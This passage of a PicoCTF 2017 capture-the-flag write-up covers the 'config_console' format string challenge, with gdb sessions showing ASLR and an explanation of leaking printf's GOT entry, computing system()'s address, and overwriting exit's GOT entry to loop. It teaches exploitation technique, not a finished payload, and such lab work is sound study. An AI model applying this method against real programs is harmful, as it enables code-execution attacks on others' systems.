 The 2 in the thread didn't seem to work right for us after we had previously disabled ASLR system wide. We used a 1 to turn it back on instead.

```
echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
```

The throes of ASLR prevent us from just getting the address of a crucial libc function that easily.

```
$ gdb console -q
Reading symbols from console...(no debugging symbols found)...done.
(gdb) set disable-randomization off
(gdb) r log
Starting program: /home/robbie/PicoCTF2017/binary_exploitation/level3/config_console/console log
Config action: ^C
Program received signal SIGINT, Interrupt.
0x00007f4389eacba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0x7f4389e12490 <__libc_system>
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/robbie/PicoCTF2017/binary_exploitation/level3/config_console/console log
Config action: ^C
Program received signal SIGINT, Interrupt.
0x00007fb1d2bdeba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) p system
$2 = {<text variable, no debug info>} 0x7fb1d2b44490 <__libc_system>
(gdb)
```

So what can we do? Well the ```%s``` format specifier is the other holy grail of format string attacks. It prints a string of characters at the address of a ```char*``` type passed into it. If we give it an arbitrary pointer, it will print out the data as ASCII characters until it hits a null byte. Thus, can craft a format string to leak the value held at an arbitrary address. We will use this capability to leak the value of the GOT pointer for ```printf()```. 

One thing that does remain the same between runs of the program for a given version of the libc library is the offset between ```system()``` and ```printf()```. We can use this fact to calculate the address of ```system()``` based on the leaked runtime address of ```printf()``` from a format string, but now we have to do 2 things. We have to both leak the address of the ```printf()``` function and overwrite its GOT entry with the address of ```system()```. The program exits after the first call to a function that writes to the log file.

This brings us to the second hint, redirecting the program execution to do get the vulnerability to run multiple times. To do this we overwrite the GOT entry of exit with a call to the loop function. We can find both these addresses in gdb. They will not change due to ASLR because they are statically linked in the program. While we're at it, we can also test our exploit synthetically by changing the values of these addresses in gdb.

```
$ gdb console -q
Reading symbols from console...(no debugging symbols found)...done.
(gdb) p exit
$1 = {<text variable, no debug info>} 0x400730 <exit@plt>
(gdb) disassemble 0x400730
Dump of assembler code for function exit@plt:
   0x0000000000400730 <+0>:     jmpq   *0x200b22(%rip)        # 0x601258 <exit@got.plt>
   0x0000000000400736 <+6>:     pushq  $0xa
   0x000000000040073b <+11>:    jmpq   0x400680
End of assembler dump.
(gdb) p loop
$2 = {<text variable, no debug info>} 0x4009bd <loop>
(gdb) r log
Starting program: /home/robbie/PicoCTF2017/binary_exploitation/level3/config_console/console log
```